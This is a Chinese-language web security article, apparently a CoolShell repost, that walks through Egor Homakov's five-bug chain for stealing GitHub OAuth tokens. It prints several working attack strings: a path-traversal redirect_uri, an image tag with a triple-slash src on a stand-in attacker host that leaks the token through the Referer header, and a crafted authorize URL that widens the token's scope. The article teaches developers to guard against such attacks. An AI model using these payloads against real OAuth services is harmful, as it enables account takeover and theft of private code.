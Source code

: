           Egor Homakov（Twitter: [@homakov](http://twitter.com/homakov)个人网站: [EgorHomakov.com](http://egorhomakov.com/)）是一个Web安全的布道士，他这两天把github给黑了，并给github报了5个安全方面的bug，他在他的这篇blog——《[How I hacked Github again](http://homakov.blogspot.com/2014/02/how-i-hacked-github-again.html)》（墙）说明了这5个安全bug以及他把github黑掉的思路。Egor的这篇文章讲得比较简单，很多地方一笔带过，所以，**我在这里用我的语言给大家阐述一下黑掉Github的思路以及原文中所提到的那5个bug。希望这篇文章能让从事Web开发的同学们警惕**。关于Web开发中的安全事项，大家可以看看这篇文章《[Web开发中的你需要了解的东西](https://coolshell.cn/articles/6043.html)》

![](/assets/git-1.png)

### OAuth简介

首先，这个故事要从[Github OAuth](https://developer.github.com/v3/oauth/)讲起。所以，我们需要先知道什么是[OAuth](http://en.wikipedia.org/wiki/OAuth)。所谓OAuth就是说，第三方的应用可以通过你的授权而不用知道你的帐号密码能够访问你在某网站的你自己的数据或功能。像Google, Facebook, Twitter等网站都提供了OAuth服务，提供OAuth服务的网站一般都有很多开放的API，第三方应用会调用这些API来开发他们的应用以让用户拥有更多的功能，但是，当用户在使用这些第三方应用的时候，这些第三方的应用会来访问用户的帐户内的功能和数据，所以，当第三应用要干这些事的时候，我们不能让第三方应用弹出一个对话框来问用户要他的帐号密码，不然第三方的应用就把用户的密码给获取了，所以，OAuth协议会跳转到一个页面，让用户授权给这个第三方应用以某些权限，然后，这个权限授权的记录保存在Google/Facebook/Twitter上，并向第三方应用返回一个授权token，于是第三方的应用通过这个token来操作某用户帐号的功能和数据时，就畅通无阻了。下图简单地说明了Twitter的OAuth的授权过程。

![](/assets/git-2.png)

从上面的流程图中，我们可以看OAuth不管是1.0还是2.0版本都是一个比较复杂的协议，所以，在Server端要把OAuth实现对并不是一些容易事，其总是或多或少会有些小错误。Egor就找到了几个Github的OAuth的实现的问题。



### OAuth的Callback

还需要注意的是，因为OAuth是需要跳到主站的网页上去让用户授权，当用户授权完后，需要跳转回原网页，所以，一般来说，OAuth授权页都会带一个 redirect\_url的参数，用于指定跳转回原来的网页。Github使用的这个跳转参数是redirect\_uri参数。一般来说，redirect\_uri这个参数需要在服务器端进行验证。

你想一下，如果有人可以控制这个redirect\_uri这个参数，那么，你就可以让其跳转到别的网页上（可能会是个有恶意的网页）。如果你觉得跳转到别的网页上也无所谓，那么你就错了。别忘了，当你对这个第三方的应用授权通过后，服务方会给第三方应用返回一个授权token，这个token会被加到那个redirect\_uri参数后面然后跳转回去，如果这个redirect\_uri被别有用心的人改一个恶意的网址后，这个token也就被转过去了，于是授权token也就被泄漏过去了。

知道了这一切，我们就可以理解Egor提的那5个bug是什么意思了。

#### 

### 第一个Bug — 没有检查重定向URL中的/../

首先，我们通过[Github的 redirect\_uri 的说明文档](https://developer.github.com/v3/oauth/#redirect-urls)我们可以看到这样的说明：

```
如果 CALLBACK URL是: http://example.com/path
 
GOOD: https://example.com/path
GOOD: http://example.com/path/subdir/other
 
BAD: http://example.com/bar
BAD: http://example.com/
BAD: http://example.com:8080/path
BAD: http://oauth.example.com:8080/path
BAD: http://example.org
```

而Github对于redirect\_uri做了限制，要求只能跳回到 https://gist.github.com/auth/github/callback/，也就是说，域名是gist.github.com，目录是/auth/github/callback/，服务器端做了这个限制，看似很安全了。

但是，Egor发现，Github的服务器端并没有验证.. /../../这样的情况。

于是，Egor相当于构造了一个下面这样的Redirect URL：

```
https://gist.github.com/auth/github/callback/../../../homakov/8820324?code=CODE
```

于是上面的URL就相当于：

```
https://gist.github.com/homakov/8820324?code=CODE
```

你可以看到，认证后的跳转网页转到了别的地方去（并非是github限制的地方）——我们知道Github的gist虽然是给你分享代码片段的，但是也可以用来定制自己的东西的（比如markdown），这个gist的网页当然是被Egor所控制的。

#### 

### 第二个BUG — 没有校验token

第一个bug其实并没有什么，如果服务器端要校验一下token是否和之前生成的token的redirect\_uri一模一样，只要服务器做了这个验证，第一个bug完全没有什么用处，但是，github的服务端并没有验证。

这就是第二个bug，于是第一个和第二个bug组合起来成了一个相当有威力的安全漏洞。

也就是说，token的生成要考虑redirect\_uri，这样，当URL跳转的时候，会把redirect\_uri和token带到跳转页面（这里的跳转页面还是github自己的），跳转页面的服务端程序要用redirect\_uri来生成一个token，看看是不是和传来的token是一个样的。这就是所谓的对URL进行签名——以保证URL的不被人篡改。一般来说，对URL签名和对签名验证的因子包括，源IP，服务器时间截，session，或是再加个salt什么的。

###  第三个BUG — 注入跨站图片

现在，redirect\_uri带着code，安全顺利地跳到了Egor构造的网页上：

```
https://gist.github.com/homakov/8820324?code=CODE
```

但是，这个是gist的网页，你无法在这个页面上运行前端（Javascript）或后端程序（Ruby——Github是Ruby做的），现在的问题是我们怎么得到那个code，因为那个code虽然后带到了我的网页上来，但那个网页还是github和用户自己的环境。

到这里，一般来说，黑客会在这个页面上放一个诸如下面的一个链接，来引诱用户点击，：

                                 `<a href=http://hack.you.com/>私人照片</a>`

这样，当页面跳转到黑客的网站上来后，你之前的网页上的网址会被加在http头里的 Refere 参数里，这样，我就可以得到你的token了。

但是，在gist上放个链接还要用户去点一下，这个太影响“用户体验”了，最好能嵌入点外部的东西。gist上可以嵌入外站的图片，但是github的开发人员并非等闲之辈，对于外站的图片，其统统会把这些图片的url代理成github自己的url，所以，你很难搞定。

不过，我们可以用一个很诡异的技巧：

                                      **&lt;img src=”///attackersite.com”&gt;**

这个是什么玩意？这个是个URL的相对路径。但是为什么会有三个///呢？呵呵。



##### 像程序员一样的思考

这个时候，我们需要以“程序员的编程思维”来思考问题——如果你是程序员，你会怎么写校验URL的程序？你一定会想到使用正则表达式，或是用程序来匹配URL中的一些pattern。于是，

* 对于绝对路径：你会匹配两个//，后面的可能会是 user@host.com（user@是可选的），然后可能会有:&lt;n&gt;端口号，然后是/，后面是服务器的路径，再往后面应该是?后面带一些参数了。

* 对于相对路径：就没有绝对路径那么复杂了。就是些 .. 和 /再加上?和一些参数。

好了，如果coolshell.cn网页中的&lt;img src=&gt;或&lt;a href=&gt;中用到的相对路径是 /host.com，那么浏览器会解释成：https://coolshell.cn/host.com，如果是///host.com，那么就应该被浏览器解释成 https://coolshell.cn///host.com。

但是，Chrome和Firefox，会把///host.com当成绝对路径，因为其正确匹配了绝对路径的scheme。如果你正在用Chrome/Firefox看这篇文章 ，你可以看看下面的连接（源码如下）：

                               [CoolShell Test](https://www.google.com/)

```
<a href="///www.google.com">CoolShell Test</a>
```

关键是，这个Chrome/Firefox的问题被标记成了Won’t Fix，我勒个去，基本上来说，后台的程序也有可能有这样的问题，对于Perl，Python，Ruby，Node.js，PHP带的URL检查的函数库都有这样的问题。

于是，我们就可以使用这样的方式给gist注入了一个第三方站点的图片（github的服务端没有察觉到（因为我们前面说过大多数语言的URL检查库都会被 Bypass了），但是浏览器端把这个链接解释到了第三方的站点上），于是请求这个图片的http头中的refere 中包含用户当前页面的URL，也包含了用户授权的code。

到这里，黑客Egor已经拿到用户gist的权限并可以修改或查看用户私用的gist了。但是作者并没有满足，他想要的更多。

### 

### 第四个bug – Gist把github\_token放在了cookie里

于是Egor在用户的cookie里找到了 github\_token

![](/assets/git-3.png)

但是这个token没什么用，因为授权的Scope只有gists。但是，这个token不应该放在用户端的cookie里，本身就是一个安全事故，这个东西只能放在服务端（关于Web开发中的安全事项，可以看看这篇文章《[Web开发中的你需要了解的东西](https://coolshell.cn/articles/6043.html)》）。

于是，Egor只能另谋出路。



### 第五个Bug – 自动给gist授权

因为gist是github自家的，Egor所以估计github想做得简单一点，当用户访问gist的时候，不会出弹出一个OAuth的页面来让用户授权，不然，用户就会很诧异，都是你们自家的东西，还要授权？所以，Egor猜测github应该是对gist做了自动授权，于是，Egor搞了这样的一个URL（注意其中的 redirect\_uri中的scope ）

```
https://github.com/login/oauth/authorize?client_id=7e0a3cd836d3e544dbd9&redirect_uri=
https%3A%2F%2Fgist.github.com%2Fauth%2Fgithub%2Fcallback/../../../homakov/8820324&
response_type=code&scope=repo,gists,user,delete_repo,notifications
```

于是，这个redirect-uri不但帮黑客拿到了访问gist的token，而且还把授权token的scope扩大到了用户的代码库等其它权限。于是你就可以黑入用户的私有代码区了。



参考：

从“黑掉GITHUB”学WEB安全开发   [https://coolshell.cn/articles/11021.html](https://coolshell.cn/articles/11021.html)

